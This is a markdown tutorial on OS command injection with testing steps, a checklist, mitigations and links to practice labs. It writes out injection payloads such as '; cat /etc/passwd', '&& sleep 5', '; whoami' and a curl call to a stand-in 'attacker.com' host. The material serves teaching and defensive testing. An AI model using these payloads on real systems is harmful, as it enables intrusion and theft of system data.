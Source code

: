 # Day 3: Command Injection  

## 📖 Overview  
Command Injection is a critical vulnerability that occurs when an application improperly processes user input, allowing attackers to execute arbitrary system commands on the server. This can lead to unauthorized access, data theft, and system compromise.  

---

## 🚩 Key Concepts  

### **What is Command Injection?**  
Command Injection occurs when:  
- User-supplied input is included in system commands without proper sanitization or validation.  
- Attackers exploit this to manipulate the executed commands or run their own malicious commands.  

### **Types of Command Injection**  
1. **Classic Command Injection**: Direct execution of malicious commands.  
2. **Blind Command Injection**: No direct feedback from the application, but the attack’s effects (e.g., delays, external communications) confirm success.  

---

## 🔍 **How to Identify Command Injection**  

### 🌐 **Common Injection Points**  
1. **File Uploads**: Exploiting scripts handling file paths (e.g., `/var/tmp/; cat /etc/passwd`).  
2. **Shell Commands**: Inputs passed to shell utilities like `ls`, `ping`, `cat`.  
3. **API Endpoints**: Parameters triggering shell commands.  
4. **Forms**: Fields accepting user input that interact with system commands.  

---

## **Step-by-Step Process to Find Command Injection Vulnerabilities**  

### **1. Analyze Inputs**  
- Identify inputs that might influence system-level operations (e.g., ping utilities, file handlers).  

### **2. Test for Injection**  
- Use special characters to test if input alters the command execution flow:  
  - `;`, `|`, `&&`, `||`, `>`, `<`.  

### **3. Observe Responses**  
- Look for unexpected outputs or errors indicating command execution.  
- For blind injection, observe external effects (e.g., delays or network interactions).  

---

## 🛠️ **Exploitation Steps**  

### **Example 1: Testing with Basic Payloads**  
- Original input: `192.168.1.1` (expected IP address)  
- Malicious input: `192.168.1.1; cat /etc/passwd`  

If the server outputs the contents of `/etc/passwd`, it’s vulnerable.  

### **Example 2: Blind Command Injection via Delays**  
1. Input payload: `192.168.1.1 && sleep 5`  
2. Observe delay in response to confirm vulnerability.  

### **Example 3: Outbound Communication**  
1. Inject payload: `192.168.1.1 && curl http://attacker.com`  
2. Check if the attacker server receives the request.  

---

## **Command Injection Vulnerability Checklist**  

### **1. Reconnaissance**  
- [ ] Identify areas interacting with OS commands (e.g., IP address fields, file operations).  

### **2. Testing**  
- [ ] Test special characters (`;`, `|`, `&&`) to break command structure.  
- [ ] Use payloads to extract sensitive information or confirm execution:  
  - `; ls /`  
  - `; whoami`  

### **3. Verification**  
- [ ] Confirm successful command execution through output or external indicators (e.g., DNS queries, delays).  

---

## 🔒 **Mitigation Strategies**  

1. **Avoid Shell Commands**: Use APIs or system libraries for OS-level interactions instead of executing shell commands.  
2. **Input Validation**: Validate and sanitize all user inputs to ensure they do not include malicious characters.  
3. **Escape Inputs**: Use functions like `shlex.quote()` (Python) to safely escape shell inputs.  
4. **Principle of Least Privilege**: Restrict user permissions to limit the impact of potential exploitation.  
5. **Use Security Tools**: Implement Web Application Firewalls (WAFs) to detect and block command injection attempts.  

---

## 💻 **Hands-on Practice**  
- Try command injection labs on:  
  - PortSwigger Web Security Academy [https://portswigger.net/web-security/os-command-injection]  
  - OWASP Juice Shop [https://owasp.org/www-project-juice-shop/]  

---

## 🛠️ **Resources**  
- [OWASP Command Injection Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Command_Injection.html)  
- [GTFOBins](https://gtfobins.github.io/)  
